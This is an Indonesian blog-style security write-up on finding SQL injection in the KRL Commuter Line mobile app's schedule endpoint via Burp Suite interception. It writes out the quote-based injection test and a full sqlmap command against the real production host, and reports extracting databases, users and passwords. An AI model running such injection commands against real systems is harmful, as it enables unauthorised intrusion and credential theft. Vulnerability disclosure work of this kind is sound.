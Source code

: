 ```yaml
---
title: SQL Injection at Subdomain krl.co.id (Intercept Application Mobile)
date: 2020-09-29
---
```


![ ](https://miro.medium.com/max/665/1*zkOfhG0Zp6x3FYaRs1S0hQ.png)

Halo semuanya,
Kali ini saya ingin membagikan write up sederhana yang sesuai judul yaa, ok jadi langsung aja yaa.
Apa sih itu Commuter Line Indonesia? selengkapnya ada di [Wikipedia](https://id.wikipedia.org/wiki/KRL_Commuter_Line)

Saya mencari vulnerability nya melalui Intercept di aplikasi KRL Access Mobile, saya intercept menggunakan Burpsuite yang sudah saya konfigurasi agar bisa melakukan intercept http request di aplikasi Android. lalu saya melakukan intercept di bagian schedule and route, seperti ini

![ ](https://miro.medium.com/max/2400/1*vSYZP8d86JDTkF_F8H230Q.jpeg)

Lalu saya mendapatkan request url dan post data nya, berikut data nya

![ ](https://miro.medium.com/max/2400/1*N0WmvrJLyHYetYC0iBAfRA.png)

> Request Url: http://info.krl.co.id//VQFXIQNcRQkEQkdHVh1aW1dfQDhGF0dFRxFRFB8WbVBKTRYIXUZPWUBYTARWTAlWVEBSCV9TSFoAUARUWgMGCTo1MDRjZDI3Mg==
Post data : no_ka=1465&id_stasiun=BKS

___

Selanjutnya saya mencoba untuk menginjeksi dengan single quote pada parameter no_ka, response nya adalah “500 internal server error”

![ ](https://miro.medium.com/max/2400/1*QI9cE4erO7YKDsY4ZBy_yw.png)

Lalu saya tambahkan ( — -) setelah single quote, maka menampilkan data data normal, berarti menandakan bahwa vulnerability terhadap SQL Injection. awalnya saya tidak yakin vulnerable SQL Injection, sebab respons nya 500 Internal Server Error, tetapi saya menambahkan balance menampilkan data normal.

![ ](https://miro.medium.com/max/2400/1*UA663wzxpLdy3raZfMxMYA.png)

___

Selanjutnya saya scan di SQLMAP dengan command

```
sqlmap -u "http://info.krl.co.id//VQFXIQNcRQkEQkdHVh1aW1dfQDhGF0dFRxFRFB8WbVBKTRYIXUZPWUBYTARWTAlWVEBSCV9TSFoAUARUWgMGCTo1MDRjZDI3Mg==" --data="no_ka=1465&id_stasiun=BKS" --level 3 --risk 3 --dbs
```

Maka hasil scannya adalah saya mendapatkan 22 database

![ ](https://miro.medium.com/max/2400/1*sf0XDAPeMlw_LXbDpnjS4Q.png)

Dan 5 Users

![ ](https://miro.medium.com/max/2400/1*rhfD2OEMFsrUyq-pecfh-w.png)

Beserta Passwordnya

![ ](https://miro.medium.com/max/2400/1*dhPyZ0hre8jHl2G8vZ2XwQ.jpeg)

___

## Timeline Report

- 4 Agustus, 2020 send report to email commuter.care@krl.co.id

Jangan lupa di share yaa, agar saya bisa untuk memberikan write up sederhana lagi. see you!

Contact me at [About Me](/about)
